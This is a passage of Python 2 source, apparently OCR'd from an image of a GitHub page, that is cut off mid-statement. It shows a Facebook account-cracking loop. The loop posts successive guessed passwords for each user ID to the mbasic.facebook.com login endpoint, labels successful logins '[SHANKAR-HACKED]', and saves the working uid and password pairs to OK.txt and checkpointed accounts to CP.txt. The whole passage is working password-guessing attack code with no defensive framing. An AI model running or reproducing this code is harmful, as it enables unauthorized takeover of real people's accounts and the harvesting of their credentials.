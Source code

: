                                             oks.append(uid + ps8)
                                        elif 'checkpoint' in sp:
                                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            cp = open('CP.txt', 'a')
                                            cp.write(uid + '|' + ps8 + '\n')
                                            cp.close()
                                            cps.append(uid + ps8)
                                        else:
                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                'email': uid,
                                                'pass': ps9,
                                                'login': 'submit' })
                                            sp = data.content
                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                ok = open('OK.txt', 'a')
                                                ok.write(uid + '|' + ps9 + '\n')
                                                ok.close()
                                                oks.append(uid + ps9)
                                            elif 'checkpoint' in sp:
                                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                cp = open('CP.txt', 'a')
                                                cp.write(uid + '|' + ps9 + '\n')
                                                cp.close()
                                                cps.append(uid + ps9)
                                            else:
                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                    'email': uid,
                                                    'pass': ps10,
                                                    'login': 'submit' })
                                                sp = data.content
                                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    ok = open('OK.txt', 'a')
                                                    ok.write(uid + '|' + ps10 + '\n')
                                                    ok.close()
                                                    oks.append(uid + ps10)
                                                elif 'checkpoint' in sp:
                                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    cp = open('CP.txt', 'a')
                                                    cp.write(uid + '|' + ps10 + '\n')
                                                    cp.close()
                                                    cps.append(uid + ps10)
                                                else:
                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                        'email': uid,
                                                        'pass': ps11,
                                                        'login': 'submit' })
                                                    sp = data.content
                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        ok = open('OK.txt', 'a')
                                                        ok.write(uid + '|' + ps11 + '\n')
                                                        ok.close()
                                                        oks.append(uid + ps11)
                                                    elif 'checkpoint' in sp:
                                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        cp = open('CP.txt', 'a')
                                                        cp.write(uid + '|' + ps11 + '\n')
                                                        cp.close()
                                                        cps.append(uid + ps11)
                                                    else:
                                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                            'email': uid,